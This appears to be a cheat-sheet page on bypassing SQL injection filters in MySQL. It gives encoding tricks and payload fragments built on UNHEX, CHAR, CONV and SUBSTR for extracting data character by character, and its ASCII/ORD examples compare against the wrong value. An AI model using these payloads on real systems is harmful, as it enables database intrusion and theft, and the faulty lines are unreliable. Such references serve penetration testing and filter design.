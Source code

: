 ## Encoding Techniques
* URL encoding
* double URL encoding

## Bypassing Function Filters
> UNHEX, HEX, CHAR, ASCII, ORD

```sql
... SUBSTR(username,1,1)=UNHEX(48)
... SUBSTR(username,1,2)=UNHEX(4845)
... SUBSTR(username,1,5)=UNHEX('48454C4C4F')
... SUBSTR(username,1,5)=0x48454C4C4F

... HEX(SUBSTR(username,1,1))=48
... HEX(SUBSTR(username,1,2))=4845
... HEX(SUBSTR(username,1,5))='48454C4C4F'

... SUBSTR(username,1,1)=CHAR(72)
... SUBSTR(username,1,2)=CHAR(72,69)
... SUBSTR(username,1,2)=CONCAT(CHAR(72),CHAR(69))

... ASCII(SUBSTR(username,1,1))=48
... ORD(SUBSTR(username,1,1))=48
```
[MySQL CONV function](http://dev.mysql.com/doc/refman/5.7/en/mathematical-functions.html#function_conv)
```sql
# Can generate a string [a-zA-Z0-9]
CONV(10,10,36) // 'a'
CONV(11,10,36) // 'b'
# Append LOWER or LCASE / UPPER or UCASE to change casing
LCASE(CONV(10,10,36))
```
> Brute forcing strings: LOCATE, INSTR, POSITION

```sql
IF(LOCATE('H',SUBSTR(username,1,1)),1,0)
```
> SUBSTR, MID, SUBSTRING

```sql
[SUBSTR|MID|SUBSTRING]('hello' FROM 1 FOR 1)
[LEFT|RIGHT]('hello',2)
[LPAD|RPAD]('hello',6,'?') // ?hello of hello?
[LPAD|RPAD]('hello',1,'?') // h
[LPAD|RPAD]('hello',5,'?') // hello
```







